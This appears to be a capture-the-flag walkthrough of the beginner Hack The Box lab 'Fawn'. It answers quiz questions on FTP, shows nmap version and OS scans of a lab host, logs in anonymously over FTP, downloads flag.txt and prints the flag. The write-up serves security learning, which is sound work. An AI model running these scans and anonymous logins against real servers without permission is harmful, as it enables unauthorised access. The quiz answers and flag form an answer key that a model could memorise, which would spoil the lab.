 # Fawn

- **Category**: Starting Point - Tier 0
- **Difficulty**: Very Easy
- **Tags**: FTP, Network, Protocols, Reconnaissance, Anonymous/Guest Access
- **Tools**: Nmap, Telnet


# Walkthrough

## Task 1: What does the 3-letter acronym FTP stand for?

> **Answer**: File Transfer Protocol

## Task 2: Which port does the FTP service listen on usually?

> **Answer**: 21

## Task 3: What acronym is used for the secure version of FTP?

> **Answer**: SFTP

## Task 4: What is the command we can use to send an ICMP echo request to test our connection to the target?

> **Answer**: ping

## Task 5: From your scans, what version is FTP running on the target?

We can use the `-sV` flag in `nmap` to probe for the service/version info.

- `nmap -sV -p 21 10.129.57.230`


```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2023-07-01 15:37 AEST
Nmap scan report for 10.129.57.230
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix
```


> **Answer**: vsftpd 3.0.3

## Task 6: From your scans, what OS type is running on the target?

`nmap` has the ability to attempt to detect the Operating System of the target with the `-O` flag. We can provide the port with `-p 21` to save some time because we know that port is open.

**Note** that this requires root privileges

- `sudo nmap -O -p 21 10.129.57.230`

> **Answer**: Unix

## Task 7: What is the command we need to run in order to display the 'ftp' client help menu?

> **Answer**: ftp -h

## Task 8: What is username that is used over FTP when you want to log in without having an account?

> **Answer**: anonymous

## Task 9: What is the response code we get for the FTP message 'Login successful'?

> **Answer**: 230

## Task 10: There are a couple of commands we can use to list the files and directories available on the FTP server. One is dir. What is the other that is a common way to list files on a Linux system.

> **Answer**: ls

## Task 11: What is the command used to download the file we found on the FTP server?

> **Answer**: get

# Submit root flag

Putting together what we've learnt from the last few tasks, we can now FTP into the target server with the `anonymous` user, find the flag, download it, and then read it.


```
> ftp 10.129.57.230
Connected to 10.129.57.230.
220 (vsFTPd 3.0.3)
Name (10.129.57.230:josh): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||65518|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||10748|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |*******************************************************************************************************************************|    32      726.74 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.10 KiB/s)
ftp> exit
221 Goodbye.

> cat flag.txt
035db21c881520061c53e0536e44f815

```

> **Answer**: 035db21c881520061c53e0536e44f815


